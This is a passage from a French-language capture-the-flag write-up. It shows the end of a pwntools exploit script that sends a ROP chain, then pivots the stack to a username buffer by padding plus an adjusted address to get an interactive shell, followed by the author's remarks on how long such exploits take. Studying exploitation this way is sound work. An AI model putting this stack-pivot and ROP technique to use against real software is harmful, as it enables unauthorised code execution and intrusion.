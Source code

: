 ```python
p.sendline(ropchain)
p.recv()
"""
0x08048fc9 <+397>:	lea    esp,[ecx-0x4]
0x08048fcc <+400>:	ret
On ajoute donc 4 a user name pour compenser le -0x4
"""
usernameAddr = 0x80EB2C0
ESP = usernameAddr + 4 # Fix the offset before ret
p.sendline("1" * 28 + p32(ESP))
p.recv()
p.sendline("10")
p.recv()
p.interactive()
```

On le lance, ce serait quand même fou que ca fonctionne du premier coup non ? :O

<img class="img_full" src="run_exploit.png" alt="run_exploit" >

Bim, shell, first try, too IZI mannnn !

<img class="img_med" src="like_a_boss.jpg" alt="like_a_boss" >

Sauf que... Sauf que non.

En lisant un article comme ca, ca n'a pas l'air si complexe que ca, un peu fouilli à la rigueur. Sauf que pour chaque exploit, à moins d'être vraiment un monstre (coucou Geluchat, Blackndoor, Pixis, Klaoude, Antoxyde, Ethnical, ...), c'est des heures, des jours (enfin, nuits, on se comprend ;) ) qui y passent. Mais s'acharner pendant longtemps pour finalement y arriver, quelle satisfaction !
